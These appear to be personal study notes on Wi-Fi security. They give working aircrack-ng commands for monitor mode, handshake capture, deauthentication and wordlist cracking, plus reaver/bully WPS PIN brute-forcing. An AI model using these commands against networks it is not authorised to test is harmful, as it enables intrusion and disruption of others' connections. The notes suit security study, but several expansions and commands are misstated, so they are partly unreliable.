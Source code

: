 ### Wireless security
- Most wireless schemes use a pre-shared key(encrypt and decrypt the data)
- Encryption (WEP, WPA, WPA2, WPA3)
   - Open, no encyption
   - Wireless Equivilant Protection, weakness is the 24-bit Initialization Vector
   - Wifi Protected Access replaced WEP, uses RC4 and MIC for added security
   - WPA2 introduced stronger encryption with CCMP and AES (128bit key)
   - WPA3 stronger encryption uses SAE(Simultaneous Authentication of Equals) prevents offline attacks and conducts Perfect forward Secrecy. Session keys cannot be comprimised. Dragonlfy
- Macfiltering is useless


### Wireless signal exploitation
- inSSIDer-  wifi scanning tool that helps you visualize
- signal jamming- the act of disrupting wireless communication by overwhelming the frequency with noise or signal
- Wardriving- searching for wifi networks by moving around geographic area, typically in a vehicle.
   - wigle.net- maps wifi networks, can search density and security on a map
   - 
### Wireless hacking Aircrack-ng
- gather handshack packets or IV(initialization vectors)
- Type of DOS(denial of service) attack, specifically targeted at wireless networks, forces client to disconnect by sending spoofed deauth frames
1. Put wireless card in monitor mode ```airmon-ng start wlan0```
2. next use ```airodump-ng wlan0mon``` to scan/monitor networks to save to pcap file
3. capture traffic from the target taking note of BSSID, MAC address and channel. example is ```airodump-ng --bssid AA:BB:CC:DD:EE:FF --channel 6 --write capture wlan0mon```
4. perform the deauth attack to force client to reconnect ```aireplay-ng -deauth 10 -a AA:BB:CC:DD:EE:FF -c 11:22:33:44:55:66 wlan0mon```
5. Crack the WPA/WPA2 key by using a dictionary attack to guess the passphrase. Example is using rockyou.txt or a specifically designed wordlist.txt ```aircrack-ng -w /path/tp/wordlist.txt -b AA:BB:CC:DD:EE:FF capture-01.cap```
#### Practical
    iwconfig 
    airmon-ng start wlan0    #put wifi card in monitor mode
    iwconfig 
    airodump-ng wlan0mon     #monitors network access points and copy it
    airodump-ng --bssid AA:BB:CC:DD:EE:FF --channel 6 --write Wirelesshackingcapture wlan0mon #waiting for device to connect to capture it
    aireplay-ng --deauth 0 -a AA:BB:CC:DD:EE:FF -c 11:22:33:44:55:66 wlan0mon #force target device to disconnect then reconnect to capture encrypted passphrase/handshake
    ls #we now see that Wirelesshackingcapture.cap file
    aircrack-ng Wirelesshackingcapture.cap -w /usr/share/wordlists/rockyou.txt #cracking password with this command

### WPS PIN Attack
- Wife Protected Setup (WPS) button to quick connect devices 8 digit pin seperated by 4 and 4.
- To crack a 4 digit pin it is only 10,000 possible pins.
- 3 digit is only 1,000 possible pins
#### Practical
    iwconfig
    airmon-ng start wlan0 #switch wifi card to monitor mode
    wash -h
    wash -i wlan-mon #start scanning networks
    clear
    reaver -h #used to brute force the WPS pin
    reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -vv -K 1 #will brute force the WPS pin
    reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -vv -N #-N is the no NAT flag, depending on router you have to adjust the flags
    wash -i wlan0mon
    bully -b AA:BB:CC:DD:EE:FF -p 1234567 wlan0mon
